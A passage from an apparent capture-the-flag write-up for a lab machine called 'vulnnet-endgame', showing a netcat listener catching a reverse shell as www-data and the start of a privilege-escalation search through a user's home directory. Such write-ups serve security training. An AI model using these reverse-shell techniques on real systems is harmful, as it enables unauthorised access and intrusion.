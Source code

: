 i got the shell and started to look around.

```shell
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.1.199] from (UNKNOWN) [10.10.79.39] 55208
Linux vulnnet-endgame 5.4.0-120-generic #136~18.04.1-Ubuntu SMP Fri Jun 10 18:00:44 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 16:42:30 up  1:07,  0 users,  load average: 0.00, 0.00, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

### Privesc

on the machine is only one home directory of the user `system`

```shell
$ cd /home/system
$ ls -la
total 92
drwxr-xr-x 18 system system 4096 Jun 15 17:12 .
drwxr-xr-x  3 root   root   4096 Jun 14 11:25 ..
-rw-------  1 system system 2124 Jun 15 17:11 .ICEauthority
lrwxrwxrwx  1 root   root      9 Jun 14 13:28 .bash_history -> /dev/null
-rw-r--r--  1 system system  220 Jun 14 11:25 .bash_logout
-rw-r--r--  1 system system 3771 Jun 14 11:25 .bashrc
drwx------ 16 system system 4096 Jun 14 12:02 .cache
drwx------ 14 system system 4096 Jun 14 12:50 .config
drwx------  3 root   root   4096 Jun 14 12:02 .dbus
drwx------  3 system system 4096 Jun 14 11:35 .gnupg
drwx------  2 root   root   4096 Jun 14 12:02 .gvfs
drwx------  3 system system 4096 Jun 14 11:35 .local
drwxr-xr-x  4 system system 4096 Jun 14 11:56 .mozilla
lrwxrwxrwx  1 root   root      9 Jun 14 13:28 .mysql_history -> /dev/null
-rw-r--r--  1 system system  807 Jun 14 11:25 .profile
-rw-r--r--  1 system system    0 Jun 14 11:36 .sudo_as_admin_successful
drwxr-xr-x  2 system system 4096 Jun 14 11:35 Desktop
drwxr-xr-x  2 system system 4096 Jun 14 11:35 Documents
drwxr-xr-x  2 system system 4096 Jun 14 11:35 Downloads
drwxr-xr-x  2 system system 4096 Jun 14 11:35 Music
drwxr-xr-x  2 system system 4096 Jun 14 11:35 Pictures
drwxr-xr-x  2 system system 4096 Jun 14 11:35 Public
drwxr-xr-x  2 system system 4096 Jun 14 11:35 Templates
dr-xr-x---  2 system system 4096 Jun 14 13:24 Utils
drwxr-xr-x  2 system system 4096 Jun 14 11:35 Videos
-rw-------  1 system system   38 Jun 14 13:22 user.txt
```

i looked into all folders and couldn't see right away what might be the attack vector. for sure i can not read the `user.txt`
